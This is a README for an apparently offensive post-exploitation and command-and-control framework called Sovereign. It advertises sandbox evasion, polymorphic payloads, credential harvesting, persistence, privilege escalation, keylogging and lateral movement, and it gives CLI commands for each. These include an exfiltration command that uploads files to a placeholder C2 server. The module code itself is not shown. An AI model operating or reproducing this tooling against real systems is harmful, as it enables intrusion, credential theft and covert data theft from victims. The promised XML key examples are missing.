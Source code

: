 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

# Features

- Enhanced Evasion Techniques: Polymorphic code, sandbox detection, time-based evasion.
- Advanced Post-Exploitation Modules: Credential harvesting, persistence, privilege escalation,
- reconnaissance, data exfiltration, keylogging, lateral movement.
- Secure Communication: Encrypted communication between agent and C2 server.
- Modular Design: Easily add new modules and functionalities.
- Logging and Reporting: Detailed logging and report generation.

# Usage

# Setting Up the C2 Server

1. Create a Python virtual environment and activate it:
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate

2. Install the required dependencies:
    pip install -r c2_server/requirements.txt

3. Run the C2 server:
    python c2_server/c2_server.py

# Using the CLI

The CLI provides various commands to interact with the framework.

List all registered agents:
    python cli/cli.py list_agents

Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

Harvest credentials:
    python cli/cli.py harvest_credentials

Establish persistence:
    python cli/cli.py establish_persistence

Escalate privileges:
    python cli/cli.py escalate_privileges

Gather system information:
    python cli/cli.py gather_system_info

Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

# Example Commands

Listing all registered agents:
    python cli/cli.py list_agents

Sending a command to a specific agent:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

Generating a payload for Windows:
    python cli/cli.py generate_payload --platform windows

Harvesting credentials:
    python cli/cli.py harvest_credentials

Establishing persistence:
    python cli/cli.py establish_persistence

Escalating privileges:
    python cli/cli.py escalate_privileges

Gathering system information:
    python cli/cli.py gather_system_info

Exfiltrating data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

Starting a keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

Moving laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report

This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

Key Generation and Conversion

RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

Generate a private key:
    openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

Extract the public key from the private key:
    openssl rsa -pubout -in private_key.pem -out public_key.pem

AES Key Generation
To generate an AES key, you can use OpenSSL as well:

Generate a 256-bit AES key:
    openssl rand -base64 32 > aes_key.txt

Conversion to XML
For certain applications, you may need to convert these keys into XML format. Below are examples of how you might format the keys in XML.


Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

Running the Project
To run the project, follow the instructions below:

Clone the repository:
    git clone https://github.com/your-repo/Sovereign-C2.git
    cd Sovereign-C2

Install dependencies:
    pip install -r requirements.txt

Run the CLI:
    python cli/cli.py

Set up the environment variables:
    export $(cat .env | xargs)

# Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.
